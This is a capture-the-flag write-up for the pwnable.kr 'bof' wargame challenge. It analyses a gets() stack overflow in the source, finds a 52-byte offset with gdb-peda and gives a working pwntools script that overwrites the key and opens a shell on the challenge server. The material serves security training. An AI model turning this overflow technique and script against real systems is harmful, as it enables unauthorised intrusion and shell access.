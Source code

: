 # [pwnable.kr](http://pwnable.kr/play.php) - bof Challenge
![](pwnable.kr-website.png)
## 1.1 Getting resource
```sh
$ wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
```
```bash
th3knight$wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
--2022-01-09 17:45:49--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7,2K)
Saving to: ‘bof.2’

bof.2                         100%[=================================================>]   7,18K  --.-KB/s    in 0s

2022-01-09 17:45:50 (526 MB/s) - ‘bof.2’ saved [7348/7348]

--2022-01-09 17:45:50--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c.2’

bof.c.2                       100%[=================================================>]     308  --.-KB/s    in 0s

2022-01-09 17:45:50 (18,1 MB/s) - ‘bof.c.2’ saved [308/308]
```

## 1.2 Overflowing the program
### 1.2.1 Reading and analysis the source code
First up, we need to see what is in the code
```bash
$ cat bof.c
```
```c
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
We see that, in the main function inputted is `0xdeadbeef`
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef); // <=== Here
        return 0;
}
```

and in `func()`, there is an array with `char overflowme[32]` and have a risk function called from lib is `gets()` with the note: smash me!
```c
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
```
and if the key (which is 0xdeadbeef) is 0xcafebabe, there would be system call the `sh` binary
```c
if(key == 0xcafebabe){
	system("/bin/sh");
}
```
### 1.2.2 Debugging program and find the offset to overflow & override the key.
In here i will use the gdb debugger to the bug the program
```bash
th3knight$gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$
```
In here, the output of mine might different than yours because i've already installed the [Peda](https://github.com/longld/peda)
Let's disassembly the main
```powershell
gdb-peda$ disas main

Dump of assembler code for function main:
   0x5655568a <+0>:     push   ebp
   0x5655568b <+1>:     mov    ebp,esp
   0x5655568d <+3>:     and    esp,0xfffffff0
   0x56555690 <+6>:     sub    esp,0x10
   0x56555693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:    call   0x5655562c <func>
   0x5655569f <+21>:    mov    eax,0x0
   0x565556a4 <+26>:    leave
   0x565556a5 <+27>:    ret
End of assembler dump.
```
In here, we could see in the address `0x56555693` : `0xdeadbeef` moved into pointer of ESP and then `call <func>`, let's disassembly the function `func` to see other intructions.
```powershell
gdb-peda$ disas func

Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
End of assembler dump.
```
In thí function, I see the compare intruction `cmp  DWORD PTR [ebp+0x8],0xcafebabe` so i know this is `if(key == 0xcafebabe)` operation. Let's make a break point on it and create a pattern to overflow and get the offset.

Folowing to the workflow of the code, I know that `0x5655564f <+35>:  call   0x56555650 <func+36>` will be the `gets()`,  so I just make a breakpoint before and after calling it to see what happend.
```powershell
gdb-peda$ br *0x5655564c
Breakpoint 1 at 0x5655564c
gdb-peda$ br *0x56555654
Breakpoint 2 at 0x56555654
```
Creating the offset
```powershell
gdb-peda$ pattern create 100 1.txt
Writing pattern of 100 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
On the stop of break point 1, we use `x/100wx $esp` to show the esp, I got lots of result but can see that there is 0xdeadbeef overthere
```powershell
0xffffd210:     0xffffd22c      0x00000000      0xf7ffd000      0x00000000
0xffffd220:     0x00000000      0x00000000      0x56555034      0x5655573a
0xffffd230:     0x56556ff4      0xf7fa6000      0x00000001      0x5655549d
0xffffd240:     0xf7fa63fc      0xffffffff      0x56556ff4      0xbb15de00
0xffffd250:     0x56556ff4      0xf7fa6000      0xffffd278      0x5655569f
0xffffd260:     0xdeadbeef      0x00000000      0x565556b9      0x00000000 ; <===
```
Now we know the address `0xffffd260` has`0xdeadbeef` Enter `c` or `continue` to continue and stop at the next breakpoint, let's show it's stack to get the offset and using the pattern offset of peda to find the exact length
```powershell
gdb-peda$ x/x 0xffffd260
0xffffd260:     0x41474141
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

### 1.3 POC and getting the flag
We already know position of `0xdeadbeef`, it's beginning from word 52. I wrote a python script `poc.py` to make a buffer and send to the server following the instruction of the game `nc pwnable.kr 9000`. 
```python
#!/usr/bin/python3
import struct  
import pwn  
  
junk = b'A'*52  
key = struct.pack('<L', 0xcafebabe)  
overriden_key_buffer = junk + key  
connection = pwn.remote('pwnable.kr', 9000)  
connection.sendline(overriden_key_buffer)  
connection.interactive()
```
```bash
th3knight$./poc.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag    <=== This is what we need
log
log2
super.pl
```
Thanks for reading
